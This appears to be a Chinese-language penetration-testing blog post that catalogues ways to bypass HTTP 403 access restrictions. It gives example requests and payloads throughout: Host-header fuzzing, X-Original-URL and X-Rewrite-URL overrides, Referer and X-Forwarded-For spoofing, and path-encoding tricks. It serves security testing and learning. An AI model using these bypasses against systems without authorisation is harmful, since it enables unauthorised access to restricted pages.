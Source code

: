 # 渗透测试如何利用403




今天面试问到这个问题了，我大概是知道怎么利用，就是说不太出来...哎还是用文字总结一下吧！



## 1.端口利用

扫描主机端口，找其它开放web服务的端口，访问其端口，挑软柿子。





## 2.修改HOST

**Host在请求头中的作用：**在一般情况下，几个网站可能会部署在同一个服务器上，或者几个 web 系统共享一个服务器，通过host头来指定应该由哪个网站或者web系统来处理用户的请求。

而很多WEB应用通过获取HTTP HOST头来获得当前请求访问的位置，但是很多开发人员并未意识到HTTP HOST头由用户控制，从安全角度来讲，任何用户输入都是认为不安全的。



修改客户端请求头中的 Host 可以通过**修改 Host 值**修改为子域名或者ip来绕过来进行绕过二级域名；



**首先**对该目标域名进行子域名收集，整理好子域名资产（host字段同样支持IP地址）。先Fuzz测试跑一遍收集到的子域名，这里使用的是Burp的Intruder功能。若看到一个服务端返回200的状态码，即表面成功找到一个在HOST白名单中的子域名。我们利用firefox插件来修改HOST值，成功绕过访问限制。







## 3.覆盖请求 URL

尝试使用 **X-Original-URL** 和 X-Rewrite-URL 标头绕过 Web 服务器的限制。

通过支持 X-Original-URL 和 X-Rewrite-URL 标头，用户可以使用 X-Original-URL 或 X-Rewrite-URL HTTP 请求标头**覆盖请求 URL 中的路径，尝试绕过对更高级别的缓存和 Web 服务器的限制**

```
Request
GET /auth/login HTTP/1.1
Response
HTTP/1.1 403 Forbidden

Reqeust
GET / HTTP/1.1
X-Original-URL: /auth/login
Response
HTTP/1.1 200 OK

or

Reqeust
GET / HTTP/1.1
X-Rewrite-URL: /auth/login
Response
HTTP/1.1 200 OK

```





## 4.Referer 标头绕过

尝试使用 Referer 标头绕过 Web 服务器的限制。

介绍：Referer 请求头包含了当前请求页面的来源页面的地址，即表示当前页面是通过此来源页面里的链接进入的。服务端一般使用 Referer 请求头识别访问来源。

```
Request
GET /auth/login HTTP/1.1
Host: xxx
Response
HTTP/1.1 403 Forbidden

Reqeust
GET / HTTP/1.1
Host: xxx
ReFerer:https://xxx/auth/login
Response
HTTP/1.1 200 OK

or

Reqeust
GET /auth/login HTTP/1.1
Host: xxx
ReFerer:https://xxx/auth/login
Response
HTTP/1.1 200 OK

```





## 5.代理 IP

一般开发者会通过 Nginx 代理识别访问端 IP 限制对接口的访问，尝试使用 X-Forwarded-For、X-Forwared-Host 等标头绕过 Web 服务器的限制。

```bash
X-Originating-IP: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Forwared-Host: 127.0.0.1
X-Host: 127.0.0.1
X-Custom-IP-Authorization: 127.0.0.1

```

如：

```
Request
GET /auth/login HTTP/1.1
Response
HTTP/1.1 401 Unauthorized

Reqeust
GET /auth/login HTTP/1.1
X-Custom-IP-Authorization: 127.0.0.1
Response
HTTP/1.1 200 OK

```





## 6.扩展名绕过

基于扩展名，用于绕过 403 受限制的目录。

```
site.com/admin => 403
site.com/admin/ => 200
site.com/admin// => 200
site.com//admin// => 200
site.com/admin/* => 200
site.com/admin/*/ => 200
site.com/admin/. => 200
site.com/admin/./ => 200
site.com/./admin/./ => 200
site.com/admin/./. => 200
site.com/admin/./. => 200
site.com/admin? => 200
site.com/admin?? => 200
site.com/admin??? => 200
site.com/admin..;/ => 200
site.com/admin/..;/ => 200
site.com/%2f/admin => 200
site.com/%2e/admin => 200
site.com/admin%20/ => 200
site.com/admin%09/ => 200
site.com/%20admin%20/ => 200

```



## 7.扫描的时候

遇到 403 了，上目录扫描工具，扫目录，扫文件（<font color=red>记住，扫描的时候要打开探测403，因为有些网站的目录没有权限访问会显示403，但是在这个目录下面的文件，我们或许能扫描到并访问</font> ）











---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%A6%82%E4%BD%95%E5%88%A9%E7%94%A8403/  

